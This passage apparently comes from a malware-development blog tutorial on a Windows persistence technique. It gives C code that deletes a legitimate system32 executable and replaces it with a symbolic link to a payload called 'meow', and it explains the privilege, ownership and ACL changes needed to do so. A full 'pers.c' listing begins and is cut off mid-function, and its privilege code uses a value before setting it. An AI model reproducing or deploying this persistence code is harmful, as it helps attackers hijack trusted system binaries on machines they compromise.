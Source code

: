 Finally, delete original file and set symlink:     

```cpp
// delete the original file (requires administrative privileges)
if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;
}
printf("original file deleted successfully\n");
CloseHandle(hFile);

HMODULE kernel = GetModuleHandle("kernel32.dll");
pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

// create the symbolic link
if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;
}

printf("symlink to meow created successfully =^..^=\n");
return 0;
```

As you can see, this is more complicated: this PoC demonstrates how to set privileges, change file ownership, set ACLs, delete a file, and create a symbolic link using the Windows API.    

If you try immediately delete the original file from `system32` folder, you receive an error: access denied.    

Also, if obtaining the SID for the current user and setting it are incorrect you got an error like error `1337` invalid owner or something similar.     

Final source code is looks like this `pers.c`:    

```cpp
/*
* pers.c
* symlink persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>
#include <stdio.h>
#include <aclapi.h> // for OWNER_SECURITY_INFORMATION
#include <sddl.h> // for ConvertStringSidToSid ???

BOOLEAN (WINAPI * pCreateSymbolicLinkA)(
  LPCSTR lpSymlinkFileName,
  LPCSTR lpTargetFileName,
  DWORD  dwFlags
);

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
```